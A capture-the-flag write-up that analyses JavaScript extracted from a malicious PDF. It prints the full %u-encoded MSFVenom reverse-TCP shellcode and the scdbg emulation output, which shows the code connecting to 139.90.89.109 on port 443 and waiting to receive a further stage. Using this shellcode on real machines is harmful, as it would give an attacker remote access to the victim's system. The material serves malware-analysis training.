# JS

> **Challenge Description:** The analyst team has extracted a code from a JS file for us from a malicious PDF. Please analyze the code and provide us the IP and port that it connects to.
>
> **Flag Format:** `ihack{IP:PORT}`
>
> **Hint:** Payload is generated using MSFVenom

### Solution

At first glance, the payload is Unicode encoded due to the appearance of `%u`. 

````
%ue8fc%u008f%u0000%u8960%u31e5%u64d2%u528b%u8b30%u0c52%u528b%u3114%u0fff%u4ab7%u8b26%u2872%uc031%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%u7549%u52ef%u528b%u5710%u428b%u013c%u8bd0%u7840%uc085%u4c74%ud001%u488b%u8b18%u2058%ud301%u8550%u74c9%u493c%u348b%u318b%u01ff%u31d6%uc1c0%u0dcf%u01ac%u38c7%u75e0%u03f4%uf87d%u7d3b%u7524%u58e0%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u58e0%u5a5f%u128b%u80e9%uffff%u5dff%u3368%u0032%u6800%u7377%u5f32%u6854%u774c%u0726%ue889%ud0ff%u90b8%u0001%u2900%u54c4%u6850%u8029%u006b%ud5ff%u0a6a%u8b68%u595a%u686d%u0002%ubb01%ue689%u5050%u5050%u5040%u5040%uea68%udf0f%uffe0%u97d5%u106a%u5756%u9968%u74a5%uff61%u85d5%u74c0%uff0a%u084e%uec75%u67e8%u0000%u6a00%u6a00%u5604%u6857%ud902%u5fc8%ud5ff%uf883%u7e00%u8b36%u6a36%u6840%u1000%u0000%u6a56%u6800%ua458%ue553%ud5ff%u5393%u006a%u5356%u6857%ud902%u5fc8%ud5ff%uf883%u7d00%u5828%u0068%u0040%u6a00%u5000%u0b68%u0f2f%uff30%u57d5%u7568%u4d6e%uff61%u5ed5%uff5e%u240c%u850f%uff70%uffff%u9be9%uffff%u01ff%u29c3%u75c6%uc3c1%uf0bb%ua2b5%u6a56%u5300%ud5ff
````

However, the payload was actually generated by MSFVenom`js_le` using the format. Analyze the shellcode in `scdbg` to reveal the IP address and port.

```
Loaded 426 bytes from file C:\Users\JesusCries\Desktop\js-extracted.js
Detected %u encoding input format converting...
to bin..
Byte Swapping %u encoded input buffer..
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

4010aa  LoadLibraryA(ws2_32)
4010ba  WSAStartup(190)
4010d7  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
4010e3  connect(h=42, host: 139.90.89.109 , port: 443 ) = 71ab4a07
4010fe  recv(h=42, buf=12fc5c, len=4, fl=0)
401141  closesocket(h=42)
4010d7  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)

Stepcount 2000001
```

**Flag:** `ihack{139.90.89.109:443}`

